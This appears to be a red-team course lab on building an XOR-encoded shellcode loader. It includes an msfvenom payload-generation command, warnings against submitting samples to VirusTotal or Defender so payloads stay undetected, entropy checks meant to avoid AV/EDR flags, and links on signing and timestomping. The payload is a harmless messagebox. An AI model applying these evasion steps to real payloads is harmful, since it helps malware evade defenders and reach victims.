# Lab - XOR Loader

<style>
r { color: Red }
o { color: Orange }
g { color: Green }
</style>

> ***IMPORTANT*** : Please do not send submit samples to <r>Virus Total</r> or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training.
> **Make sure at all times that sample submussion in Microsoft Defender is `turned off`, and if for some reason you get prompted to submit a sample, deny the request.**

Let's make our loader more evasive by encoding our payload with XOR.

1. Create a raw payload that pops up a messagebox, and host it on our kali machine.

```bash
cd /opt/msf/payloads
msfvenom -a x64 --platform windows -p windows/x64/messagebox TEXT="Successful Execution :)" TITLE="CrimsonCORE"  -f raw -b '\x00\x0a\x0d\x20' -o rawmsgbox.bin
updog2
```

2. Let's download the payload and encode it XOR, and convert it to a csharp array we can use in our loader



# ENTROPY

> ***ENTROPY*** 
> *DEFINITION*: Entropy indicates the randomness within a data set. Higher entropy inidcates higher randomness.
> Files with high entropy (>7.5) are typically blocked by AV/EDR when touching the disk.

![Screenshot](./images/labxor_loader.jpg)

Let's check the entropy of our XORLoader. We can use sigcheck from the `systeminternals suite`.

```powershell
sigcheck64.exe -a -h .\XLoader.exe
```

or 

```powershell
sigcheck64.exe -a XLoader.exe | FINDSTR /I entropy
```

![Screenshot](./images/labxor_sigcheck.jpg)

Our Entropy here is "5" - which is pretty low and shouldn't flag AV/EDR.


![Screenshot](./images/die_entropy.jpg)

- LOGIC.NET / BABEL

# Fixing Entropy
- <https://github.com/gmh5225/shellcode-EntropyFix>
- <https://github.com/AnErrupTion/LoGiC.NET>
-<https://www.youtube.com/watch?v=Q2vazB6SYfg&t=4042s>


# KLEENSCAN
<https://kleenscan.com/scan_result/f76da10390c0a2c03755cde6f26a242c525589e15534c60d612a62aa27d2c9d9>


![Screenshot](./images/labxor_klean.jpg)

# LAZYSIGN + TIMESTOMP
<https://captmeelo.com//redteam/maldev/2022/11/07/cloning-signing.html>
